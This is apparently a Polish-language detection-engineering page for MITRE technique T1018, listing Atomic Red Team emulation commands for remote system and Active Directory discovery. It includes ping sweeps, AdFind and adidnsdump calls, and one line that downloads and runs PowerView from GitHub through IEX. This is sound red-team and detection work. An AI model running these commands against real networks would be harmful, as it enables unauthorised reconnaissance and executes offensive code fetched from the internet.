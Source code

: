 # Alert: Remote System Discovery

Opis scenariusza, podatności lub techniki.

---

**Technika:** T1018  
**Nazwa:** Remote System Discovery  
**Taktyki:** Discovery  
**Status:** Pending  
**Autor:** Krzysztof K.  

---

<!--
Tactics: Discovery
Technique ID: T1018
Technique Name: Remote System Discovery
Status: Pending
--> 


---

## Atomic Red Team – dostępne testy dla tej techniki

### Remote System Discovery - net
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
net view /domain
net view
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_net/test_1.cmd)

### Remote System Discovery - net group Domain Computers
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
net group "Domain Computers" /domain
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_net_group_Doma/test_1.cmd)

### Remote System Discovery - nltest
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
nltest.exe /dclist:#{target_domain}
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_nltest/test_1.cmd)

### Remote System Discovery - ping sweep
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
for /l %i in (#{start_host},1,#{stop_host}) do ping -n 1 -w 100 #{subnet}.%i
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_ping_sweep/test_1.cmd)

### Remote System Discovery - arp
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
arp -a
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_arp/test_1.cmd)

### Remote System Discovery - nslookup
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
$localip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$pieces = $localip.split(".")
$firstOctet = $pieces[0]
$secondOctet = $pieces[1]
$thirdOctet = $pieces[2]
foreach ($ip in 1..255 | % { "$firstOctet.$secondOctet.$thirdOctet.$_" } ) {cmd.exe /c nslookup $ip}
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_nslookup/test_1.ps1)

### Remote System Discovery - adidnsdump
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
"#{venv_path}\Scripts\adidnsdump" -u #{user_name} -p #{acct_pass} --print-zones #{host_name}
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_adidnsdump/test_1.cmd)

### Adfind - Enumerate Active Directory Computer Objects
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
"PathToAtomicsFolder\..\ExternalPayloads\AdFind.exe" -f (objectcategory=computer) #{optional_args}
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Adfind_-_Enumerate_Active_Directory_Comp/test_1.cmd)

### Adfind - Enumerate Active Directory Domain Controller Objects
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
"PathToAtomicsFolder\..\ExternalPayloads\AdFind.exe" #{optional_args} -sc dclist
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Adfind_-_Enumerate_Active_Directory_Doma/test_1.cmd)

### Enumerate domain computers within Active Directory using DirectorySearcher
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
$DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher("(ObjectCategory=Computer)")
$DirectorySearcher.PropertiesToLoad.Add("Name")
$Computers = $DirectorySearcher.findall()
foreach ($Computer in $Computers) {
  $Computer = $Computer.Properties.name
  if (!$Computer) { Continue }
  Write-Host $Computer}
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1018\Enumerate_domain_computers_within_Active/test_1.ps1)

### Enumerate Active Directory Computers with Get-AdComputer
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
Get-AdComputer -Filter *
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1018\Enumerate_Active_Directory_Computers_wit/test_1.ps1)

### Enumerate Active Directory Computers with ADSISearcher
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
([adsisearcher]"objectcategory=computer").FindAll(); ([adsisearcher]"objectcategory=computer").FindOne()
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1018\Enumerate_Active_Directory_Computers_wit/test_1.ps1)

### Get-DomainController with PowerView
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainController -verbose
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1018\Get-DomainController_with_PowerView/test_1.ps1)

### Get-WmiObject to Enumerate Domain Controllers
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
try { get-wmiobject -class ds_computer -namespace root\directory\ldap -ErrorAction Stop }
catch { $_; exit $_.Exception.HResult }
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1018\Get-WmiObject_to_Enumerate_Domain_Contro/test_1.ps1)

### Remote System Discovery - net group Domain Controller
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
net group /domain "Domain controllers"
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1018\Remote_System_Discovery_-_net_group_Doma/test_1.cmd)

### Enumerate Remote Hosts with Netscan
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
cmd /c '#{netscan_path}' /hide /auto:"$env:temp\T1018NetscanOutput.txt" /range:'#{range_to_scan}'
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1018\Enumerate_Remote_Hosts_with_Netscan/test_1.ps1)

<b>Polecenia cleanup (powershell):</b>
```
remove-item "$env:temp\T1018NetscanOutput.txt" -force -erroraction silentlycontinue
```
[Pobierz cleanup_1.ps1](../../scenarios/atomic_tests\T1018\Enumerate_Remote_Hosts_with_Netscan/cleanup_1.ps1)

[Zobacz testy na GitHubie](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1018)
